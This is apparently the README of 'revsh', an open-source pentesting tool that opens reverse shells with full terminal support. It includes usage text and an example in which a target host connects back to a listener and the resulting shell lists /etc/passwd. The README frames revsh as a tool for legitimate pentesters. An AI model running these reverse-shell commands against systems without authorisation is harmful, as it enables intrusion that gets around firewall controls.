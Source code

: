 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Shellcode#Remote) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A [reverse shell](http://www.sans.edu/student-files/presentations/LVReverseShell.pdf) is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features in a small (~20k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed and tested on Linux x86_64. It hasn't been tested on other platforms, but it should port reasonably easily.

## Usage ##

	usage: revsh [-l [-e ENV_ARGS] [-s SHELL]] ADDRESS PORT

		-l: Setup a listener.
		-e ENV_ARGS: Export ENV_ARGS to the remote shell. (Default is "TERM".)
		-s SHELL: Invoke SHELL as the remote shell. (Default is /bin/sh.)

		Note: '-e' and '-s' only work with a listener.

## Example ##

First, setup the listener on the local host:

	empty@monkey:~$ revsh -s /bin/bash -l 192.168.0.42 9999

Then connect out from the remote host:

	target@kitty:~$ ./revsh 192.168.0.42 9999
	
We will now find a shell waiting for us back at the listener:

	empty@monkey:~$ revsh -s /bin/bash -l 192.168.0.42 9999
	Listening...	Connected!
	Initializing...	Done!
	################################
	# hostname: kitty
	# ip address: 192.168.0.6
	# username: target
	################################
	target@kitty:/$ ls -l /etc/passwd 
	-rw-r--r-- 1 root root 1375 Jul  2 10:24 /etc/passwd

## Installation ##

If you trust me (which, let's be honest, you shouldn't) then you can just grab the binary directly:

	wget https://github.com/emptymonkey/revsh/raw/master/revsh.Linux-x86_64
	mv revsh.Linux-x86_64 revsh
	chmod u+x revsh

Otherwise, grab the source and build it yourself:

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	make

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.


